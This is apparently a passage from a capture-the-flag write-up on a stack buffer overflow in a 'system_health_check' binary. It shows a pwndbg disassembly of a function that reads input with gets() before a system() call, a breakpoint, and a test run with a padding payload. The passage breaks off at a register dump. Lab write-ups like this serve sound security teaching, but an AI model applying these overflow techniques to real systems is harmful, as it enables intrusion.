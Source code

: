 

Let's do this inside `gdb`. For this I change the python script for send `150 A's`, `100 B's`  and `50 C's`. Save the output in file with redirect and attach the program in `gdb`:

<img src="https://raw.githubusercontent.com/pwndumb/pwndumb.github.io/master/assets/img/commons/docker-ctf-liveoverflow-challenge/hexyl%20payload.png" alt="Payload in hexadecimal" style="zoom:67%;" />



```bash
pwndbg> disassemble remote_system_health_check
Dump of assembler code for function remote_system_health_check:
   0x0000000000401267 <+0>:	push   rbp
   0x0000000000401268 <+1>:	mov    rbp,rsp
   0x000000000040126b <+4>:	sub    rsp,0x100
   0x0000000000401272 <+11>:	lea    rdi,[rip+0xdc7]        # 0x402040
   0x0000000000401279 <+18>:	call   0x401040 <puts@plt>
   0x000000000040127e <+23>:	lea    rax,[rbp-0x100]
   0x0000000000401285 <+30>:	mov    rdi,rax
   0x0000000000401288 <+33>:	mov    eax,0x0
   0x000000000040128d <+38>:	call   0x4010a0 <gets@plt>
   0x0000000000401292 <+43>:	lea    rax,[rbp-0x100]
   0x0000000000401299 <+50>:	lea    rsi,[rip+0xdc7]        # 0x402067
   0x00000000004012a0 <+57>:	mov    rdi,rax
   0x00000000004012a3 <+60>:	call   0x401080 <strcmp@plt>
   0x00000000004012a8 <+65>:	test   eax,eax
   0x00000000004012aa <+67>:	jne    0x4012c6 <remote_system_health_check+95>
   0x00000000004012ac <+69>:	lea    rdi,[rip+0xdca]        # 0x40207d
   0x00000000004012b3 <+76>:	call   0x401040 <puts@plt>
   0x00000000004012b8 <+81>:	lea    rdi,[rip+0xdce]        # 0x40208d
   0x00000000004012bf <+88>:	call   0x401050 <system@plt>
   0x00000000004012c4 <+93>:	jmp    0x4012dc <remote_system_health_check+117>
   0x00000000004012c6 <+95>:	lea    rdi,[rip+0xdcc]        # 0x402099
   0x00000000004012cd <+102>:	call   0x401040 <puts@plt>
   0x00000000004012d2 <+107>:	mov    edi,0x0
   0x00000000004012d7 <+112>:	call   0x401030 <_exit@plt>
   0x00000000004012dc <+117>:	leave
   0x00000000004012dd <+118>:	ret
End of assembler dump.
pwndbg> b *remote_system_health_check + 38
Breakpoint 1 at 0x40128d
```



```bash
pwndbg> r < a.txt
Starting program: /pwd/system_health_check < a.txt
Enter password to get system details:


Breakpoint 1, 0x000000000040128d in remote_system_health_check ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────────────────────────[ REGISTERS ]────────────
 RBX  0x0
 RCX  0x7ffff7edcd57 (write+23) ◂— cmp    rax, -0x1000 /* 'H=' */
 RDX  0x0
 RDI  0x7fffffffe480 ◂— 0x0
 RSI  0x7ffff7fb8743 (_IO_2_1_stdout_+131) ◂— 0xfba690000000000a /* '
' */
 R8   0x27
 R9   0x0
 R10  0x7ffff7fef5a0 ◂— pxor   xmm0, xmm0
 R11  0x246
 R12  0x4010c0 (_start) ◂— xor    ebp, ebp
 R13  0x0
 R14  0x0
 R15  0x0
```